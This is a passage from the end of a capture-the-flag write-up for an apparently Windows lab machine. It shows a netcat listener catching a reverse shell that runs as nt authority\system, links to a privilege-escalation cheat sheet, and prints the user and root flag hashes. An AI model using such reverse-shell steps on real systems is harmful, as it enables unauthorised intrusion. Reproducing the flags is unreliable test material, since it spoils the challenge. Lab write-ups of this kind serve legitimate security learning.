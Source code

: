 Go to the listener :

```
nc -lvp 12345
listening on [any] 12345 ...
10.10.10.93: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.93] 49204
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

And I'm nt authority\system, nice ! Go read the flags now.

## Miscellaneous

------

- [https://0x1.gitlab.io/exploit/Windows-Privilege-Escalation/](https://0x1.gitlab.io/exploit/Windows-Privilege-Escalation/)

## Flags

------

### User.txt

```
c:\Users\merlin\Desktop>type user.txt
type user.txt
e29ad89891462e0b09741e3082f44a2f
```

### Root.txt

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
c837f7b699feef5475a0c079f9d4f5ea
```